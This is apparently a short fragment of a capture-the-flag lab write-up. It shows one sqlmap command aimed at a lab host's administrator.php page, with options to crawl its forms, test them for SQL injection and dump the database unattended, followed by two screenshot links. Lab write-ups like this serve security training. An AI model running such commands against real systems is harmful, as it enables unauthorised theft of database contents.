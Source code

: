 sqlmap
#
```
sqlmap -u http://10.10.96.80/administrator.php --forms --dump --batch  
```
![image](https://user-images.githubusercontent.com/61821641/149613597-4c6b2fa4-5ab7-435e-bb7a-29fc4cd9a3a9.png)
![image](https://user-images.githubusercontent.com/61821641/149613318-76b35cb6-4232-439d-80d4-bb567681e889.png)